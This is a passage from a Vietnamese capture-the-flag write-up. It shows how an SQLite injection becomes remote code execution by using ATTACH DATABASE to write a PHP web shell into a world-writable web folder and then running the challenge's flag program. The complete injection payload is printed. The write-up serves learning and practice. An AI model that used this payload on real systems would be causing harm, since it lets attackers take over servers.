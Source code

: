 À vậy ra ta sẽ cần thực hiện RCE thực thi chương trình `printflag` để đọc flag. Phân tích thêm cái `Dockerfile` này tí:

1. File source của website sẽ được copy hết vào `/var/ww/html` và folder này chỉ có quyền `read` và `execute` cho tất cả mọi người.
2. Folder trống `/var/www/html/abyss` được tạo và có quyền ghi cho tất cả mọi người.

Trở lại vụ SQLi, sau một ngồi ngâm cứu mình đã hiểu cách để SQLitei2RCE (payload mẫu ở [đây](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#remote-command-execution-using-sqlite-command---attach-database)). 

Payload này sẽ tạo một file `lol.php` bằng lệnh `ATTACH`, tạo bảng `pwn` và cột `dataz` rồi chèn dòng `<?php system($_GET["cmd"])?>` vào đó. Như đã phân tích ở trên, tuy folder `/var/www/html` không có quyền `write` nhưng folder `/var/www/html/abyss` thì lại có, do đó ta sẽ tạo file `lol.php` trong folder này.  Payload gửi lên server

```
'); ATTACH DATABASE '/var/www/html/abyss/lol.php' AS lol; CREATE TABLE lol.pwn (dataz text); INSERT INTO lol.pwn (dataz) VALUES ('<?php system($_GET["cmd"]); ?>')--
```

![Untitled](writeup_media/Untitled%2016.png)

Lưu ý nhỏ là ta cần gửi cả 3 lệnh cùng lúc do schema `lol` sẽ chỉ tồn tại ở trong query block đó.

Sau khi ta đã có file `lol.php` ở `/var/www/html/abyss`, việc còn lại chỉ là chạy chương trình `printflag` là được.

![Untitled](writeup_media/Untitled%2017.png)
